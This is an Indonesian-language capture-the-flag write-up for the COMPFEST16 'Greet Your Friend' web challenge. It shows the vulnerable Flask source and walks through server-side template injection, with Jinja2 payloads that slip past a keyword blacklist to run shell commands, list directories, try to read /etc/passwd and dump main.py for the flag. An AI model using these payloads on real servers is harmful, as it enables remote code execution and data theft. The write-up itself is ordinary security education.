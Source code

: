 #CTF #COMPFESTHackingClass #COMPFEST16 #WebExploitation #SSTI #WriteUp  

>**Flag:** `COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}`

![compfest16-hackingclass-greetyourfriend11.png](./img/compfest16-hackingclass-greetyourfriend11.png)
### Write Up:
Tampilan awal website ketika dibuka.
![compfest16-hackingclass-greetyourfriend00.png](./img/compfest16-hackingclass-greetyourfriend00.png)
Jika kita isi input, maka akan berisi kalimat sambutan dan hasil input yang di generate secara random pada variabel `GREETINGS` pada source code yang diberikan.
![compfest16-hackingclass-greetyourfriend01.png](./img/compfest16-hackingclass-greetyourfriend01.png)

Berikut adalah source code yang diberikan pada soal.
```python
from flask import Flask, render_template, request, render_template_string
import random

app = Flask(__name__)
@app.route("/", methods=["GET"])

def home():
    if request.method == "GET":
        GREETINGS = ["Hope you have a wonderful day!",
                     "Wishing you a fantastic day ahead!",
                     "May your day be filled with joy and positivity!",
                     "Sending you positive energy for a great day!"
                     "COMPFEST16{placeholder}"]

        if request.args.get('name') :
            if all(c not in request.args.get('name') for c in ['%', 'class', 'mro', 'attr', 'self', 'read']):
                result = render_template_string(f"Hello {request.args.get('name')}! {GREETINGS[random.randint(0, len(GREETINGS)-2)]}")
                return render_template("index.html", **{"data": result})
            else:
                return render_template("index.html", **{"data": "nu uh >:("})
        return render_template("index.html")

if __name__ == "__main__":
	app.run("0.0.0.0", port=8080, debug=True)
```

Informasi yang bisa kita dapatkan dari source code diatas adalah input yang kita masukkan tidak boleh mengandung karakter `%`, `class`, `mro`, `attr`, `self`, `read`. Hal ini sebagai bentuk pencegahan dari kerentanan website berupa [[-Server Side Template Injection (SSTI)]].

Hal pertama yang harus kita identifikasi adalah jenis kerentanan SSTI apa yang ada pada website ini yang bisa dilihat dari gambar berikut. Setiap hasil dari operasi yang benar akan mengikuti garis hijau dan jika hasil operasi salah akan mengikuti garis merah.
![ssticheck.png](ssticheck.png)
Mulai cek dari `{7 * 7}`
![compfest16-hackingclass-greetyourfriend02.png](./img/compfest16-hackingclass-greetyourfriend02.png)
Hasil yang keluar bukanlah `49` melainkan `{7 * 7}`, jadi kita bisa lanjutkan dengan `{{7 * 7}}`.
![compfest16-hackingclass-greetyourfriend03.png](./img/compfest16-hackingclass-greetyourfriend03.png)
Hasil yang keluar adalah `49`, kita bisa melanjutkannya dengan mengecek `{{7*'7'}}`
![compfest16-hackingclass-greetyourfriend04.png](./img/compfest16-hackingclass-greetyourfriend04.png)
Dengan ini kita mengidentifikasi jenis dari SSTI ini antara Jinja2 dan Twig.

Cari payload yang mendukung untuk mendapatkan flag. Disini saya menggunakan [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Kita akan berusaha untuk dapat mengakses directory dari server untuk menemukan flag.

Kita akan menggunakan `__globals__` untuk mengakses dictionary dari variabel global dan `__builtins__` untuk dapat menggunakan fungsi-fungsi built-in python.

Awalnya saya mencoba untuk mengubah karakter yang tidak boleh digunakan menjadi hex dan memasukkanya ke dalam payload.
```
{{0x730x650x6c0x66.__init__.__globals__.__builtins__.__import__('os').popen('id').0x720x650x610x64()}}
```
yang mempresentasikan
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Tetapi, malah mendapati error. Namun, dari sini kita bisa mendapatkan jawaban bila jenis SSTI nya adalah Jinja2.
![compfest16-hackingclass-greetyourfriend05.png](./img/compfest16-hackingclass-greetyourfriend05.png)

Setelah membaca payload lebih lanjut di Payloads All The Things, saya menemukan payload yang hampir tidak mengandung karakter yang dilarang pada website diatas.
```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```
Disini masih terdapat karakter `read` yang dilarang pada website. Dengan memanfaatkan [ChatGPT](https://chat.openai.com) untuk memberikan alternatif dari payload diatas untuk mengakses directory server.

Berikut adalah percobaan pertama untuk mengetes apakah payload dapat berjalan atau error.
```
{{get_flashed_messages.__globals__.__builtins__.get('id',' ')}}
```

![compfest16-hackingclass-greetyourfriend06.png](./img/compfest16-hackingclass-greetyourfriend06.png)
Mantap, payload tidak error dan mengeluarkan output `&lt;built-in function id&gt;` atau `<built-in function id>`. Selanjutnya kita hanya perlu mencari command yang dapat menampilkan isi directory. Dalam hal ini, saya masih memanfaatkan ChatGPT untuk memberikan alternatif.

Percobaan pertama adalah berikut:
```
{{get_flashed_messages.__globals__.__builtins__.exec('ls')}}
```
Tetapi gagal atau error. 

Pada percobaan kedua, saya berhasil menampilkan isi dari directory dengan menambahkan `__import__()` dan `listdir()`
```
{{get_flashed_messages.__globals__.__builtins__.__import__('os').listdir('/')}}
```
![compfest16-hackingclass-greetyourfriend07.png](./img/compfest16-hackingclass-greetyourfriend07.png)
Karena `listdir()` hanya menampilkan isi dari directory dan tidak bisa membuka suatu file, saya mencari potongan payload baru.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('ls',shell=True)}}
```
Menurut Chat GPT,
- `get_flashed_messages` adalah sebuah fungsi dalam Flask yang digunakan untuk mengambil pesan yang disimpan sementara (flashed messages). Dalam konteks ini, fungsi ini digunakan untuk mengakses atribut `__globals__` dari fungsi tersebut.\
- `__globals__` adalah atribut dari fungsi Python yang mengembalikan kamus (dictionary) dari semua variabel global yang tersedia.
- `__builtins__` berisi semua fungsi bawaan (built-in) dari Python seperti print, len, dll.
- `__import__('subprocess')` akan mengimpor modul `subprocess`, yang digunakan untuk menjalankan perintah shell di sistem operasi. Modul inilah yang menjadi kunci kita pada kali ini.
- `subprocess.check_output('<cmd>', shell=True)` adalah sebuah metode dalam modul `subprocess` yang menjalankan perintah shell yang diberikan dan mengembalikannya menjadi string dan `shell=True` memungkinkan perintah ini dijalankan dalam shell, yang memungkinkan penggunaan perintah.

![compfest16-hackingclass-greetyourfriend08.png](./img/compfest16-hackingclass-greetyourfriend08.png)
Setelah mencoba membuka dan mencari ke `etc/passwd`, `/` dan `/home`. Saya teringat dengan salah satu isi dari variabel `GREETINGS` pada source code yang telah diberikan mengandung string berikut `"COMPFEST16{placeholder}"`. Jadi kita akan mencoba mengecek `main.py`.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('cat main.py',shell=True)}}
```
![compfest16-hackingclass-greetyourfriend09.png](./img/compfest16-hackingclass-greetyourfriend09.png)

FLAG sudah ditemukan, untuk mempermudah membaca kita bisa menggunakan `cat main.py | grep "COMPFEST16"`.
![compfest16-hackingclass-greetyourfriend10.png](./img/compfest16-hackingclass-greetyourfriend10.png)


